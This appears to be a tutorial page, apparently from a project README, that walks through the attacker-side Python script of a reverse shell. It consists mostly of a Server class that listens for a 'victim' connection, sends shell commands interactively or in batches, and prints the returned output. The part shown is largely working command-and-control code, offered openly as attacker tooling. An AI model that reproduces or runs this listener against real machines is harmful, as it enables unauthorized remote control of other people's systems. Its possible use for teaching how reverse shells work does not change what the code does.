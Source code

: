 ## Server/Attacker-side Script
Similarly for the server side, we create a class. and add the following methods.

Initializer method requires `ip address` and `port`.
```python
class Server:
    def __init__(self, host_ip, host_port):
        self.host_ip = host_ip
        self.host_port = host_port
```

Start server and listen to the victim to connect with, and then accept the connection.
```python
    def start_conn(self):
        print("####################################")
        print("######### Server Program #########")
        print("####################################")

        server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        server.bind((self.host_ip,self.host_port))

        print("Msg: Server Initiated...")
        print("Msg: Listening to the Client")

        server.listen(1)
        self.client, self.client_addr = server.accept()

        print("Msg: Received Connection from", self.client_addr)
```

The `online_interaction` takes a command as an input, sends the command to the client, and shows the output result afterwards follwed by taking another command as input again. 
```python
    def online_interaction(self):
        while True:
            interface = '[+] '+ str(self.client_addr[0]) + " :sh$ "
            command = input(interface)
            print(command)
            self.client.send(command.encode())
            recv_data = self.client.recv(1024).decode()
            if recv_data == b"":
                continue
            print("\n", recv_data, "\n")
```

To reduce the interaction, the `offline_interaction` method takes a list of commands as input, sends to the client, and then shows the received output to the attacker.
```python
    def offline_interaction(self,list_of_commands):
        self.client.send(str(list_of_commands).encode())
        recv_data = self.client.recv(1024).decode()
        print("Received output data from Client\n\n")
        print(recv_data)
```
